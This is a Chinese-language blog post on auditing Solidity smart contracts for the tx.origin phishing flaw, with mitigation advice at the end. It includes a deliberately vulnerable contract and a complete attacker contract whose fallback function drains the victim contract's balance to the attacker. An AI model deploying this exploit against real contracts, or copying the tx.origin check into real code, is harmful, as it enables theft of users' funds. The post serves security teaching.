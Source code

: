 ```yaml
---
layout: post_layout
title: 智能合约审计-tx.origin漏洞
time: 2020年5月4日 星期一
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描叙：tx.origin是solidity中的一个全局变量，它能够遍历调用栈并返回最初发送调用(或事务)的账户的地址，使用tx.origin变量进行身份验证，会导致合约受到网络钓鱼攻击。

核心问题：使用tx.origin全局变量绕过限制，获取一定的权限。

# 漏洞合约分析

```sol
pragma solidity ^0.4.22;

contract game {
    address public owner;
    
    constructor () public {
        owner = msg.sender;
    }
    function () public payable {}
        function withdrawAll(address _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(this.balance);
        }
}
```
漏洞点：攻击者可以诱使漏洞合约所有者向攻击者合约发送以太币，然后调用攻击者合约的函数，从而调用漏洞合约的withdrawAll()函数，程序将进入漏洞合约中执行，此时msg.sender就是攻击者合约的地址，tx.origin就是漏洞合约所有者的地址，require(tx.origin == owner)条件得到满足，_recipient.transfer(this.balance)可以执行。

# 攻击合约分析

```sol
pragma solidity ^0.4.22;

interface game{
    function owner() external returns(address);
    function withdrawAll(address _recipient) external;
}
contract exp {
    address owner;
    game phInstance;
    constructor() public{
        owner = msg.sender;
    }
    modifier onlyowner() {
        require(owner == msg.sender);
        _;
    }
     function setInstance(address addr) public onlyowner{
         phInstance = game(addr);
    }
    function getbalance() public onlyowner{
        owner.transfer(address(this).balance);
    }
    function attack() internal{
        address ph0wner = phInstance.owner();
        if (ph0wner == msg.sender){
            phInstance.withdrawAll(owner);
        }else{
            owner.transfer(address(this).balance);
        }
    }
    function() external payable{
        attack();
    }
}
```
利用点：其回退函数调用了attack()函数，而attack()函数中的if (ph0wner == msg.sender){phInstance.withdrawAll(owner);在条件满足的情况下，可以调用game合约中的withdrawAll()函数。同时，由于传入的地址为攻击者地址，原合约取出的余额将全部转入攻击者账户。

# 漏洞预防

- 如果想要拒绝外部合约调用当前合约，可以使用require(tx.origin == msg.sender),以防止使用中间合约来调用当前合约。

- 合约开发者要尽量避免使用tx.origin，改用使用msg.sender.